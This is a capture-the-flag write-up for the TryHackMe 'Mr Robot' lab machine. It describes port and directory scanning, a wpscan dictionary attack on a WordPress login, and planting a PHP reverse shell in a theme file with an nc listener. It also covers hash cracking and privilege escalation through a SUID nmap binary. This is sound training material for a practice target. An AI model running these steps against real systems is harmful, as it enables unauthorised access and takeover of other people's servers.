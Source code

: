 ```yaml
---
layout: article
title: Mr Robot CTF
aside:
  toc: true
sidebar:
  nav: write-ups
cover: (https://i.imgur.com/mp5JwKO.png
permalink: /writeups/mrrobot
tags:
- THM
---
```

![](https://i.imgur.com/mp5JwKO.png)

> Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

[Mr. Robot CTF - TryHackMe Room](https://tryhackme.com/room/mrrobot)

### What is key 1?

First of all, start with a port scan: `sudo nmap -sV 10.10.157.176`

- Open ports
```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

Use `gobuster` for folder enumeration: `gobuster dir -u https://10.10.157.176 -k -w /usr/share/wordlists/dirb/big.txt`

In the following path `https://10.10.157.176/robots.txt` we found the following text:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Download `https://10.10.157.176/fsocity.dic` file.
And the first key is in ``https://10.10.157.176/key-1-of-3.txt`

### What is key 2?

Surfing to the website we find a login page: `https://10.10.157.176/wp-login.php`. 
At the beginning of `fsocity.dic` dictionary file there are potentially usernames (mrrobot, Robot, Elliot).
I tried `Elliot` in the *fogot password* page `https://10.10.157.176/wp-login.php?action=lostpassword` and I received a confirm of the correct username.

Use `wpscan` to perform a dictionary attack on login page.

`wpscan --disable-tls-checks --url https://10.10.157.176/wp-login.php -U Elliot -P /home/yami/Desktop/thm/fsocity.dic`

It will take a long time to find the correct password, because it is at the end of the wordlist of more than 800000 words.
Password is *ER28–0652*.

Now we have credentials to enter in the wordpress managment page.

We are admin so we can upload a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) inside *Appearance --> Editor --> 404.php*.

On local machine use `nc -nvlp 9000` and execute via browser *https://ip-address/wp-content/themes/twentyfifteen/404.php*.

When we will be inside, we'll land such as *daemon* user. 

There is a chance to make the present shell more stable by using Python’s Pty module:

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/0.png.png)

Go to `/home/robot/`.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/1.png.png)

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/2.png.png)

We have to crack md5 hash to find *robot*'s password.
Use *John The Ripper*.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/3.png.png)

Now we have user password to catch the second key.

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/4.png.png)

### What is key 3?

Now we have to perform privilege escalation.
We have to find some vulnerabilities in the kernel or in some files.

*For privilege escalation we can use either LinPEAS or LinEnum tools which will identify potential vectors for PE in the target server. In order to scan the system, we’ll need to transfer one of the scripts to the victim machine. For this purpose we can use SimpleHTTPServer Python module.*

But we also can run the following command which searches for all files having **SUID** bit set: `find / -perm -u=s -type f 2>/dev/null`

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/5.png.png)

TryHackMe hint suggested *nmap*. It is version 3.81 and it has an interactive mode in which nmap runs whit "sudo" privileges. (https://vk9-sec.com/nmap-privilege-escalation/).

![Alt text](https://raw.githubusercontent.com/z3f1r0/z3f1r0.github.io/master/img/mrrobot/6.png.png)

We can find third key under `/root`.


*References*:
- https://infosecwriteups.com/tryhackme-mr-robot-machine-c33476f12c48
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://crackstation.net/
- https://vk9-sec.com/nmap-privilege-escalation/



